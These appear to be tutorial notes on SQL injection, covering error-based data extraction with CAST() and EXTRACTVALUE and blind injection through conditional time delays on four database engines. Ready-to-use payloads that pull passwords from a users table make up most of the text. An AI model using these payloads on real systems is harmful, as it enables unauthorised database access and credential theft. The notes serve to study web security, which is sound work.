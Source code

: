 
Sometimes the misconfiguration of database results in verbose message.

But occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one.

- You can use `CAST()` to achieve this, it enables you to convert one data type to another:

`CAST((SELECT example_column FROM example_table) AS int)`

May cause error similar to the following:

`=> ERROR: invalid input syntax for type integer: "Example data"`

Example payload:

`TrackingId=' AND 2=CAST((SELECT password FROM users LIMIT 1) AS int)--`

`=> ERROR: invalid input syntax for type integer: "0h50pj2lgndwg4wlj8tj"`

If MySQL: `TrackingId=' UNION SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT password FROM users WHERE username='administrator')))--`

### Exploiting blind SQL injection by triggering time delays

#### Time delays

| Database   | Query                                 |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

#### Conditional time delays

| Database   | Query                                                                                                                            |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a' <concatinate here> dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`                                                                                   |



Delaying the execution of a SQL query also delays the HTTP responses, we use this to determine the truth of injected condition:

Example on Microsoft SQL Server:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- The first of these inputs does not trigger a delay, because the condition 1=2 is false.
- The second input triggers a delay of 10 seconds, because the condition 1=1 is true.

